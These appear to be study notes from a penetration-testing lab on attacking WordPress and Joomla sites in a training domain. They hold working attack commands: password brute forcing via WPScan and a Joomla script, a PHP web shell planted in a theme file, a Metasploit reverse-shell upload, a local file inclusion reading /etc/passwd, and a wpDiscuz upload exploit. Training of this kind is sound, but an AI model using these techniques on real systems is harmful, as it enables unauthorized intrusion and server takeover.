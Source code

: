 * A lot of the apps will need to be manually added to the `/etc/hosts` file. Modify this oneliner to do it quick:
```bash
$ IP=10.129.42.195
$ printf "%s\t%s\n\n" "$IP" "app.inlanefreight.local dev.inlanefreight.local blog.inlanefreight.local" | sudo tee -a /etc/hosts
```
Nmap Web discovery script
```bash
nmap -p 80,443,8000,8080,8180,8888,1000 --open -oA web_discovery -iL scope_list
```
* many orgs have large amounts of hosts running on ports 80 and 443 alone
	* unrealistic to individually navigate to them all
	* can use `EyeWitness` and `Aquatone` to feed in raw Nmap XML scan output to inspect and screenshot all hosts much quicker
		* can help narrow down
* scope list could look like this:
	* app.inlanefreight.local
	* 10.129.201.50
* Example Eyewitness oneliner:
```bash
eyewitness --web -x web_discovery.xml -d inlanefreight_eyewitness
```

# Wordpress
* php backend!
### Discovery
Typical `/robots.txt` file:
```
User-agent: *
Disallow: /wp-admin/
Allow: /wp-admin/admin-ajax.php
Disallow: /wp-content/uploads/wpforms/

Sitemap: https://inlanefreight.local/wp-sitemap.xml
```
* 5 types of users on standard WP install:
	* Administrator
	* Editor
	* Author
	* Contributor
	* Subscriber
* Another way to identify a wp site is to curl it and grep for `wordpress`
* can identify plugins by running `curl -s http://blog.inlanefreight.local/ | grep plugins`
* most plugins have a readme.txt file where you can find version and more info
* can find them at `http://blog.inlanefreight.local/wp-content/plugins` OR `http://blog.inlanefreight.local/?p=1/wp-content/pplugins`

### Enum on users
* A valid username and an invalid password results in the following message:
	* ***Error:** The password you entered for the username **USER** is incorrect*
* an invalid username returns that the user was not found

### WPScan
* `--enumerate` flag is used to enumerate various components of the WordPress application, such as plugins, themes, and users
	* all plugins can be enumerated using the arguments `--enumerate ap`
	* Can pass in in API tokens from WPVulnDB with `--api-token` flag
* default number of threads is `5`
	* can be changed with `-t` flag

### Login Bruteforce
* WPscan can do this
* two kinds of attacks 
	* `wp-login` will attempt to bruteforce the standard login page
	* `xmlrpc` uses wordpress API to make login attempts through `/.xmlrpc.php`
		* generally faster
* ex:
```bash
sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```

### Code Execution
* Done with wp themes
* click on `appearance` and select theme editor
* An inactive theme can be selected to avoid corrupting the primary theme
* Click on `Select` after selecting the theme, and we can edit an uncommon page such as `404.php` to add a web shell
* This code should let us execute commands via the GET parameter `0`
	* avoids too much modification of contents
```php
system($_GET[0]);
```
* Click on `Update File` at the bottom to save
* can use curl to gain access
```bash
curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=id
```
* `wp_admin_shell_upload` in metasploit can be used to upload a shell and execute it automatically
	* the `php/meterpreter/reverse_tcp` payload should work fine
* Many Metasploit modules (and other tools) attempt to clean up after themselves, but some fail
	* make sure to document and clean up
* most vulns in wordpress are with the plugins (89%)
* Note: We can use the [waybackurls](https://github.com/tomnomnom/waybackurls) tool to look for older versions of a target site using the Wayback Machine. Sometimes we may find a previous version of a WordPress site using a plugin that has a known vulnerability. If the plugin is no longer in use but the developers did not remove it properly, we may still be able to access the directory it is stored in and exploit a flaw.

**Mail-masta plugin***
* Since 2016 it has suffered an unauthenticated SQL injection and a Local File Inclusion
* Vulnerable code:
```php
<?php 

include($_GET['pl']);
global $wpdb;

$camp_id=$_POST['camp_id'];
$masta_reports = $wpdb->prefix . "masta_reports";
$count=$wpdb->get_results("SELECT count(*) co from  $masta_reports where camp_id=$camp_id and status=1");

echo $count[0]->co;

?>
```
* the `pl` parameter allows us to include a file without any type of input validation or sanitization
	* Using this, we can include arbitrary files on the webserver
* Exploit:
```bash
curl -s http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```

**wpDiscuz plugin**
* The file mime type functions could be bypassed, allowing an unauthenticated attacker to upload a malicious PHP file and gain remote code execution
* Exploit script:
	* can be downloaded from exploitdb
```bash
python3 wp_discuz.py -u http://blog.inlanefreight.local -p /?p=1
```
* may fail, but can still use curl to execute commands after the script was run:
```bash
curl -s http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php?cmd=id
```
* Make sure to cleanup the `.php` file left behind

# Joomla
* another CMS like wordpress, just not as popular
* can fingerprint by looking at the page source: `curl -s http://dev.inlanefreight.local/ | grep Joomla`
* ex robots.txt file
```bash
# If the Joomla site is installed within a folder
# eg www.example.com/joomla/ then the robots.txt file
# MUST be moved to the site root
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths.
# eg the Disallow rule for the /administrator/ folder MUST
# be changed to read
# Disallow: /joomla/administrator/
#
# For more information about the robots.txt standard, see:
# https://www.robotstxt.org/orig.html

User-agent: *
Disallow: /administrator/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
```
* can fingerprint version if the readme.txt is present
* can use `droopscan` for limited enumeration
	* can git clone it or install via pip
* `joomscan` is now out of date and needs python 2.7 to run, but can still be helpful
* administrator login portal located at `http://dev.inlanefreight.local/administrator/index.php`
* default admin account is `admin`
	* password set at install time
* script to brute force the login:
```bash
sudo python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
```